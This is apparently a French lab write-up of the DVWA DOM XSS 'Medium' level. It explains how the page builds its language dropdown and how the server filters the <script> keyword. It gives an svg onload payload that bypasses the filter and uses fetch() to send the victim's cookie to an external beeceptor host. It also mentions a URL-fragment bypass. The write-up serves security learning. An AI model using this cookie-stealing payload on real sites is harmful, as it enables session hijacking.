







# Niveau "Medium"

Le niveau "Medium" repose sur le même principe : l'utilisateur peut changer de langue et la nouvelle valeur est envoyée au serveur via la paramètre `default` :





Le script permettant de renseigner dynamiquement la valeur sélectionnée dans le liste déroulante est toujours le même :

```markup
<form name="XSS" method="GET">
  <select name="default">
	<script>
	  if (document.location.href.indexOf("default=") >= 0) {
		  var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
			document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
			document.write("<option value='' disabled='disabled'>----</option>");
		}
					    
		document.write("<option value='English'>English</option>");
		document.write("<option value='French'>French</option>");
		document.write("<option value='Spanish'>Spanish</option>");
		document.write("<option value='German'>German</option>");
	</script>
	</select>
	<input type="submit" value="Select" />
</form>
```

Si l'on tente de récupérer le jeton de notre victime en laissant l'envoi du paramètre au serveur nous recevons une redirection **`302`** qui requête une URL avec en paramètre une valeur whitelistée :



Tentons de contourner la protection en place. Au bout de quelques essais il apparaît que le mot clé `<script>` soit filtré. Pas de problème, d'autres moyens existent :

```markup
http://192.168.56.203:8080/vulnerabilities/xss_d/?default="></option></select><svg onload="fetch('https://domxss.free.beeceptor.com?cookie='+document.cookie)">
```



Nous recevons ainsi bien le cookie de la victime :



Mais comme vu précédemment, il est possible de valider très simplement ce challenge en utilisant la mécanique du fragment URL :



Cela permet de s'affranchir complètement de la vérification effectuée côté serveur :



